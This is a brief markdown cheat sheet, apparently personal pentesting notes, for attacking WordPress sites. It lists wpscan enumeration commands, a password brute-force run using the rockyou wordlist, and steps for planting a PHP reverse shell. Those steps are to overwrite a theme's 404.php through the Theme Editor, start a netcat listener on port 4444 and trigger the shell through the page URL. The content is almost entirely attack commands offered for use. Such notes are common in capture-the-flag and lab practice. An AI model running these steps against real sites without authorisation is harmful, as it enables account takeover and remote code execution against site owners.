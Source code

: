 ```yaml
---
layout: post
title:  "webapp - wordpress"
date:   2022-01-01
categories: web
---
```


## Enumeration

```bash
wpscan --url example.local --enumerate ap,at,cb,dbe
```

```bash

wpscan --rua -e --url http://<ip>:<port>/<uri>/

```

## Brute force

```bash

wpscan --rua --url http://<ip>:<port>/<uri>/ -P /usr/share/wordlists/rockyou.txt -U user

```

## Reverse Shell

```

Login -> Appearance -> Theme Editor -> Twenty Seventeen: 404 Template (404.php)

Change the content of the 404.php with this : /usr/share/webshells/php/php-reverse-shell.php

Listener: nc -nlvp 4444

Trigger the Reverse Shell : http://<ip>:<port>/<uri>/wp-content/themes/twentyseventeen/404.php

```

